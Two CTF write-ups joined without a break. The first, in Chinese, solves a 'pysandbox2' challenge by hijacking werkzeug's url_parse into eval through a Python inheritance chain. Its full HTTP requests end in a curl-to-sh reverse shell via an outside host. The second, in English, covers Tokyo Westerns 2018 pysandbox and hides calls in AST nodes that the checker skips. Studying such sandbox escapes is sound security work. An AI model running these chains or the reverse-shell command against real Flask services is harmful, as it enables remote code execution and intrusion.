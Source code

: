 #### 非预期  
通过app.static_folder 动态更改静态文件目录，将静态文件目录设为根目录，从而任意文件读,这也是pysandbox的大部分做法  
#### 预期  
预期就是pysandbox2 必须RCE

本题的主要思路就是劫持函数，通过替换某一个函数为eval system等，然后变量外部可控，即可RCE  
看了一下大家RCE的做法都不相同，但只要是劫持都算在预期内，只是链不一样，这里就只贴一下自己当时挖到的方法了

首先要找到一个合适的函数，满足参数可控，最终找到werkzeug.urls.url_parse这个函数，参数就是HTTP包的路径

比如  
```  
GET /index.php HTTP/1.1  
Host: xxxxxxxxxxxxx  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101
Firefox/77.0  
```  
参数就是 '/index.php'  
然后是劫持，我们无法输入任何括号和空格，所以无法直接import werkzeug  
需要通过一个继承链关系来找到werkzeug这个类  
直接拿出tokyowestern 2018年
shrine的找继承链脚本（https://eviloh.github.io/2018/09/03/TokyoWesterns-2018-shrine-
writeup/)  
访问一下，即可在1.txt最下面看到继承链  
最终找到是  
`request.__class__._get_current_object.__globals__['__loader__'].__class__.__weakref__.__objclass__.contents.__globals__['__loader__'].exec_module.__globals__['_bootstrap_external']._bootstrap.sys.modules['werkzeug.urls']  
`  
但是发现我们不能输入任何引号，这个考点也考多了，可以通过request的属性进行bypass  
一些外部可控的request属性  
request.host  
request.content_md5  
request.content_encoding  
所以请求1  
```  
POST / HTTP/1.1  
Host: __loader__  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101
Firefox/77.0  
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Connection: close  
Cookie:
experimentation_subject_id=IjA3OWUxNDU0LTdiNmItNDhmZS05N2VmLWYyY2UyM2RmZDEyMyI%3D
--a3effd8812fc6133bcea4317b16268364ab67abb; lang=zh-CN  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
Content-MD5: _bootstrap_external  
Content-Encoding: werkzeug.urls  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 246

cmd=request.__class__._get_current_object.__globals__[request.host].__class__.__weakref__.__objclass__.contents.__globals__[request.host].exec_module.__globals__[request.content_md5]._bootstrap.sys.modules[request.content_encoding].url_parse=eval  
```  
然后url_parse函数就变成了eval  
然后访问第二个请求

```  
POST __import__('os').system('curl${IFS}https://shell.now.sh/8.8.8.8:1003|sh')
HTTP/1.1  
Host: __loader__  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101
Firefox/77.0  
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Connection: close  
Cookie:
experimentation_subject_id=IjA3OWUxNDU0LTdiNmItNDhmZS05N2VmLWYyY2UyM2RmZDEyMyI%3D
--a3effd8812fc6133bcea4317b16268364ab67abb; lang=zh-CN  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
Content-MD5: _bootstrap_external  
Content-Encoding: werkzeug.urls  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 246

cmd=request.__class__._get_current_object.__globals__[request.host].__class__.__weakref__.__objclass__.contents.__globals__[request.host].exec_module.__globals__[request.content_md5]._bootstrap.sys.modules[request.content_encoding].url_parse=eval  
```  
shell就弹回来了# Tokyo Western 2018: pysandbox

__Tags:__ `misc`  

This sandbox uses python's `ast` module to parse the input string to its
corresponding _abstract syntax tree_. This is what python uses to represent
scripts during runtime.

A quick reading of the server scripts shows that when check encounters a
`Call` or `Attribute` in the expression, it will be considered invalid.

```python  
# Allowed  
1 + 2  
[1, 2]

# Not Allowed  
len([1, 2])  
[1, 2].append(3)  
''.__class__  
```

The incorrect way to approach this problem is to look for ways to be able to
do this __without__ `Call`. Instead, we should look for areas in the tree
__not seen by `check`__.

The task was nice enough to put a comment that can be found from python's
`ast` [module documentation](https://docs.python.org/2/library/ast.html).

Comment  
```  
expr = BoolOp(boolop op, expr* values)  
       | BinOp(expr left, operator op, expr right)  
       | UnaryOp(unaryop op, expr operand)  
       | Lambda(arguments args, expr body)  
       | IfExp(expr test, expr body, expr orelse)  
```

Implemented Checks  
```python  
   attributes = {  
           'BoolOp': ['values'],  
           'BinOp': ['left', 'right'],  
           'UnaryOp': ['operand'],  
           'Lambda': ['body'],  
           'IfExp': ['test', 'body', 'orelse']  
		...  
```

These list down the different components of a particular expression, and the
`attributes` dictionary shows the parts that `check` traverses. We compare the
two and identify several parts that are not checked.

Here are some examples:

| Original                                             | Implemented Checks    | Unchecked parts |  
|------------------------------------------------------|-----------------------:|-----------------:|  
| Lambda(arguments args, expr body)                    | 'Lambda': ['body']    | args            |  
| ListComp(expr elt, comprehension* generators)        | 'ListComp': ['elt']   | generators      |  
| Subscript(expr value, slice slice, expr_context ctx) | Subscript': ['value'] | slice, ctx      |

.

Based on this we can infer that any `Call` in those parts will not be checked.

All of the unchecked parts can be used to hide calls. Here are two ways of
getting the flags based on the findings above:

### Using List Comprehensions

```  
[e for e in list(open('flag'))]  
```

### Using Subscript

```  
[][sys.stdout.write(open('flag').read())]  
```

### Note of Flag2

For the second flag, it is really the same thing, but the `attributes` inside
the `check` function is more complete.

```python  
       attributes = {  
           'BoolOp': ['values'],  
           'BinOp': ['left', 'right'],  
           'UnaryOp': ['operand'],  
           'Lambda': ['body'],  
           'IfExp': ['test', 'body', 'orelse'],  
           'Dict': ['keys', 'values'],  
           'Set': ['elts'],  
           'ListComp': ['elt', 'generators'],  
           'SetComp': ['elt', 'generators'],  
           'DictComp': ['key', 'value', 'generators'],  
           'GeneratorExp': ['elt', 'generators'],  
           'Yield': ['value'],  
           'Compare': ['left', 'comparators'],  
           'Call': False, # call is not permitted  
           'Repr': ['value'],  
           'Num': True,  
           'Str': True,  
           'Attribute': False, # attribute is also not permitted  
           'Subscript': ['value'],  
           'Name': True,  
           'List': ['elts'],  
           'Tuple': ['elts'],  
           'Expr': ['value'], # root node  
           'comprehension': ['target', 'iter', 'ifs'],  
       }

```  

Original writeup (https://github.com/pberba/ctf-
solutions/tree/master/20180901_tokyo_western/pysandbox).